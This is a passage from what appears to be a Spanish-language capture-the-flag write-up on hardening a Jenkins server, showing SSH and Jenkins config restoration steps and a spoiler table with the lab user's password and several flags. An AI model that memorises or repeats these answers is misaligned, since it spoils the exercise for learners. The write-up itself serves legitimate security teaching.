

Luego hacemos `systemctl restart ssh` y probamos ingresar con `tracy`:



### Zero trust

En la shell `admin@jenkins` modificamos `/var/lib/jenkins/config.xml.bak` (ahí esta la flag):



Luego hacemos `rm config.xml` y `cp config.xml.bak config.xml`. Reiniciamos el servicio mediante `sudo systemctl restart jenkins`.

Volvemos a la página de Jenkins y confirmamos si nos pide autenticación:



### Respuesta

<details>
<summary>Spoiler</summary>
<table>
  <thead>
    <tr>
      <th style="text-align:center">Información</th>
      <th style="text-align:center">Valor</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:center">Puerto por defecto de Jenkins</td>
      <td style="text-align:center"><code>8080</code></td>
    </tr>
    <tr>
      <td style="text-align:center">Contraseña del usuario <code>tracy</code></td>
      <td style="text-align:center"><code>13_1n_33</code></td>
    </tr>
    <tr>
      <td style="text-align:center">Flag del root</td>
      <td style="text-align:center"><code>ezRo0tW1thoutDiD</code></td>
    </tr>
    <tr>
      <td style="text-align:center">Error presente al ingresar como <code>tracy</code> y hacer <code>sudo -l</code> luego de borrar dicho usuario de los <emphasis>sudoers</emphasis>.</td>
      <td style="text-align:center"><code>Sorry, user tracy may not run sudo on jenkins.</code></td>
    </tr>
    <tr>
      <td style="text-align:center">Flag del SSH</td>
      <td style="text-align:center"><code>#Ne3d2SecureTh1sSecureSh31l</code></td>
    </tr>
    <tr>
      <td style="text-align:center">Flag de Jenkins</td>
      <td style="text-align:center"><code>FullTrust_has_n0_Place1nS3cur1ty</code></td>
    </tr>
  </tbody>
</table>
</details>

### [Volver a inicio](../../README.md)
